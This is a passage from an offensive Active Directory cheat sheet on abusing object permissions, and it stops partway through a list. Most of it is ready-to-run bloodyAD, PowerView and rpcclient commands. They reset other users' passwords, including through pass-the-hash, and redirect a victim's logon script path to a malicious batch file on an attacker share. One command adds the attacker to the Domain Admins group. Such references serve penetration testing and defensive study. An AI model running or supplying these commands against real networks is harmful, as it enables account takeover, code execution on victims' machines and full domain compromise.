 Reset another user's password.

* Windows/Linux:

  ```ps1
  # Using bloodyAD with pass-the-hash
  bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password john.doe 'Password123!'
  ```

* Windows only:

  ```ps1
  # https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
  $user = 'DOMAIN\user1'; 
  $pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
  $creds = New-Object System.Management.Automation.PSCredential $user, $pass;
  $newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
  Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
  ```

* Linux only:

  ```ps1
  # Using rpcclient from the  Samba software suite
  rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
  ```

WriteProperty on an ObjectType, which in this particular case is Script-Path, allows the attacker to overwrite the logon script path of the delegate user, which means that the next time, when the user delegate logs on, their system will execute our malicious script :

* Windows/Linux:

  ```ps1
  bloodyAD --host 10.0.0.5 -d example.lab -u attacker -p 'Password123*' set object delegate scriptpath -v '\\10.0.0.5\totallyLegitScript.bat'
  ```

* Windows only:

  ```ps1
  Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.bat"
  ```

### Group

This ACE allows us to add ourselves to the Domain Admin group :

* Windows/Linux:

  ```ps1
  bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 add groupMember 'Domain Admins' hacker
  ```

* Windows only:
